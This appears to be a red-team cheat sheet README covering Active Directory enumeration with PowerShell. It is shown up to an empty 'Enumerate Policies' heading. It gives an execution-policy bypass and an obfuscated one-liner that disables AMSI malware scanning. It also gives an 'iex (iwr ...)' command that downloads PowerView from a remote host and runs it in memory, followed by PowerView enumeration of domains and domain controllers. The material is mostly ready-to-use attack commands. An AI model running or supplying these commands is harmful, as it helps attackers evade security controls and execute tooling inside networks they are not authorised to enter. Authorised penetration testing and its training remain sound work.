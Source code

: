 <p align="center">
  <img src="https://github.com/Kitsun3Sec/Pentest-Cheat-Sheets/blob/master/CheatSheets/28533648.png" alt="Pentest Cheat Sheets" width="300" />
</p>

<p align="center">
  RedTeam-Cheat-Sheets<br>
    @n3k00n3 | @UserXGnu
</p>


# AD Enumeration

## Execution Policy Bypass:

```powershell
powershell -ep bypass
```

## Bypass AMSI:

```
sET-ItEM ('V'+'aR' + 'IA' + 'blE:1q2' + 'uZx')([TYpE]("{1}{0}"-F'F','rE'));(GeT-VariaBle("1Q2U" + "zX") -VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f 'Util','A','Amsi','.Management.','utomation.','s','System'))."g`etf`iElD"(("{0}{2}{1}" -f 'amsi','d','InitFaile'),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})

```

## PowerView from remote into memory:

```powershell
iex (iwr 'https://<remote_address>/PowerView.ps1')
```

## Enumerate domain

(Powerview)

```powershell
Get-NetDomain
Get-NetDomain -Domain <domain>
```

## Enumerate domain-controllers


```powershell
Get-NetDomainController
Get-NetDomainController -Domain <domain>
```

## Enumerate Policies
